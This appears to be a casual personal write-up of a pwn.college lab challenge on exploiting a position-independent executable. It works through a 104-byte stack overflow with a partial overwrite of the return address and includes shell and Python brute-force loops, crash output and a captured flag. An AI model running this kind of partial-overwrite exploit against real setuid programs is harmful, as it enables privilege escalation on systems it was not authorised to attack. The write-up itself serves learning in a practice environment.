# Pies (hard)

i love pies theyre tasty

nah before i read the question this actually means "position independent executable" the general strat is because an operating system randomly gives an offset to the running memory you can't figure out the EXACT address of the program or it's components, this makes ROP 
hard to do but not impossible


this makes the program like a ninja and just dodge you everytime

but never interrupt your enemy while he's making a mistake - sun tzu

the program itself leaks it's own address to some component, sometimes to it's linked library sometimes to main function, it doesnt really matter

you can you can use this global offset with a combination of normal offset to then do a normal ROP




still dont know what this means yucky


side note usually the challenge doesnt specify whether it's PIE or not in normal ctfs, you figure that out yourself

```bash
hacker@binary-exploitation~pies-hard:/challenge$ file binary-exploitation-pie-overflow
binary-exploitation-pie-overflow: setuid ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=ce58bd52f84df7a1a3a692f40925cdf1082ef491, for GNU/Linux 3.2.0, not stripped
```


didnt even drop any memory leak smh

```bash
hacker@binary-exploitation~pies-hard:/challenge$ ./binary-exploitation-pie-overflow
Send your payload (up to 4096 bytes)!
ajfdsklfajskfa
Goodbye!
```

maybe dont need one

win address  - 0x1bbf




look at this closely, 96 bytes are being read from terminal, this means our padding should be technically 96 bytes + 8 for rbp

104 + win return address

since we don't know the global offset here we can do a neat trick called LYING

we only have to touch the last 2 bytes of the win return address since they generally remain the same for small program memory

so by editing the 105th and 106th bytes we can achieve the same thing


# ok so

ive been stuck on this for like well like nearly 3 hours

this is longer than any of the other ones so ima have to pull out gemini to see what im messing up because everytime i inject the payload it wont open the flag file


the last stack value is the address of the win_authed function being submitted




before overflow




after



my offsets are correct so should be alright

then i did a lil research

and apparently the last 3 hex digits are never supposed to change for linux elf's, so basically we're getting only 1 in 16, which is the fourth hex digit - i actually didnt know this one before, sick.


now you don't actually have to try to change the value, if you keep it to the initial 2 bytes and keep rerunning the program, the PIE itself will keep randomizing till we hit the right answer, its one of those "narrow enough to brute force" things and it's neat when u come across it

```sh
hacker@binary-exploitation~pies-hard:/challenge$ for i in {1..500}; do printf 'A%.0s' {1..104}; printf '\xbf\x5b'; echo; done | /challenge/binary-exploitation-pie-overflow
Send your payload (up to 4096 bytes)!
Goodbye!
Segmentation fault         for i in {1..500};
do
    printf 'A%.0s' {1..104}; printf '\xbf\x5b'; echo;
done | /challenge/binary-exploitation-pie-overflow
```

still no money, another option we do have is scoping how far we want to go in the win_auth function itself

the function address is ultimately an offset at the end of the day, we can choose to start from the second half of the function aswell



oh yeah this guy can definitely mess up our win





in fact when you look at whats happening you see that it's comparing something to 0x1337 which is a commonly known deadbeef for tracking BOFs, which i assume is a safeguard





so lets start from +35 offset

didn't work

wait maybe we can play along with the if statement, its just saying rbp-4 has to equal 0x1337 we can pull that off

trying this

[ 104 bytes of 'A' ] + [ Target Address (\xbf\x1b) ] + [ 8 bytes of padding ] + [ 0x1337 (\x37\x13\x00\x00) ]



300 hours of gemini later i figured out that i had to get the last 3 hex digits BEFORE i ran the program in gdb as by then it's already taken effect or sumn

```
Segmentation fault         /challenge/binary-exploitation-pie-overflow < /tmp/payload 2> /dev/null
Send your payload (up to 4096 bytes)!
Goodbye!
Segmentation fault         /challenge/binary-exploitation-pie-overflow < /tmp/payload 2> /dev/null
Send your payload (up to 4096 bytes)!
Goodbye!
Segmentation fault         /challenge/binary-exploitation-pie-overflow < /tmp/payload 2> /dev/null
Send your payload (up to 4096 bytes)!
Goodbye!
Segmentation fault         /challenge/binary-exploitation-pie-overflow < /tmp/payload 2> /dev/null
Send your payload (up to 4096 bytes)!
Goodbye!
Segmentation fault         /challenge/binary-exploitation-pie-overflow < /tmp/payload 2> /dev/null
Send your payload (up to 4096 bytes)!
Goodbye!
Segmentation fault         /challenge/binary-exploitation-pie-overflow < /tmp/payload 2> /dev/null
Send your payload (up to 4096 bytes)!
Goodbye!
Segmentation fault         /challenge/binary-exploitation-pie-overflow < /tmp/payload 2> /dev/null
Send your payload (up to 4096 bytes)!
Goodbye!
Segmentation fault         /challenge/binary-exploitation-pie-overflow < /tmp/payload 2> /dev/null
Send your payload (up to 4096 bytes)!
Goodbye!
Segmentation fault         /challenge/binary-exploitation-pie-overflow < /tmp/payload 2> /dev/null
Send your payload (up to 4096 bytes)!
Goodbye!
pwn.college{g-gGdydn2mkmo5wggR5yxP3gCs0.dJDMzwSO2EzNwIzW}


Bus error                  /challenge/binary-exploitation-pie-overflow < /tmp/payload 2> /dev/null
Send your payload (up to 4096 bytes)!
Goodbye!
Segmentation fault         /challenge/binary-exploitation-pie-overflow < /tmp/payload 2> /dev/null
Send your payload (up to 4096 bytes)!
Goodbye!
Segmentation fault         /challenge/binary-exploitation-pie-overflow < /tmp/payload 2> /dev/null
Send your payload (up to 4096 bytes)!
Goodbye!
Segmentation fault         /challenge/binary-exploitation-pie-overflow < /tmp/payload 2> /dev/null
Send your payload (up to 4096 bytes)!
Goodbye!
Segmentation fault         /challenge/binary-exploitation-pie-overflow < /tmp/payload 2> /dev/null
Send your payload (up to 4096 bytes)!
Goodbye!
Segmentation fault         /challenge/binary-exploitation-pie-overflow < /tmp/payload 2> /dev/null
Send your payload (up to 4096 bytes)!
Goodbye!
Segmentation fault         /challenge/binary-exploitation-pie-overflow < /tmp/payload 2> /dev/null
Send your payload (up to 4096 bytes)!
Goodbye!
Segmentation fault         /challenge/binary-exploitation-pie-overflow < /tmp/payload 2> /dev/null
Send your payload (up to 4096 bytes)!
Goodbye!
Segmentation fault         /challenge/binary-exploitation-pie-overflow < /tmp/payload 2> /dev/null
```

```sh
while true; do
>     for i in {0..15}; do
>         python3 -c "import sys; sys.stdout.buffer.write(b'A'*104 + bytes([0xe7, ($i << 4) | 0xb]))" > /tmp/payload
>         /challenge/binary-exploitation-pie-overflow < /tmp/payload 2>/dev/null
>         if [ $? -eq 0 ]; then
>             echo "[+] Win path achieved! Stopping loop."
>             break 2
>         fi
>     done
> done
```

and thats why kids, always brute force everything.

